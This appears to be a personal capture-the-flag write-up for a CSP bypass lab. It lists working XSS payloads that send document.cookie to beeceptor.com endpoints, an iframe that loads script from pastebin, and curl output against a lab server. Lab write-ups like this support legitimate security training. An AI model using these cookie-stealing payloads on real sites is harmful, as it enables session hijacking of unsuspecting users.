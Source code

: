 I have deployed the CSP Sandbox machine.

### CSP Sandbox :: Attack challenges

To deploy the machine, go to the **CSP Sandbox** task.  

**Attack** challenges require you to bypass the CSP header sent by the webpage and exfiltrate the administrator's cookies. For methods on how you can achieve this, refer to the _Bypassing CSP_ task of this room.  

_For verification, all challenges are accessed by a bot locally (**localhost**)._

Answer the questions below

![[Pasted image 20230111195911.png]]

![[Pasted image 20230112131251.png]]

Flag for attack-1  

```

https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass

https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/
CVE-2020-6519

document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";

payload to use for challenge

fetch(`https://urcsp.free.beeceptor.com/${document.cookie}`)

eval(document.location='https://urcsp.free.beeceptor.com/'.concat(document.cookie))


┌──(kali㉿kali)-[~/nappy]
└─$ curl http://34.243.75.161:3001/ -I
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src * 'unsafe-inline';  (here)
Content-Type: text/html; charset=utf-8
Content-Length: 390
ETag: W/"186-PB8tVHaonwWPTr4sUZCK/MqA5KY"
Date: Thu, 12 Jan 2023 01:24:23 GMT
Connection: keep-alive


enter text:

<script>fetch(`https://witty.free.beeceptor.com/${document.cookie}`)</script>

or

<script>eval(document.location='https://witty.free.beeceptor.com/'.concat(document.cookie))</script>

or

<BoDY onload=eval(document.location='https://witty.free.beeceptor.com/'.concat(document.cookie))>

using https://beeceptor.com/

to fetch

```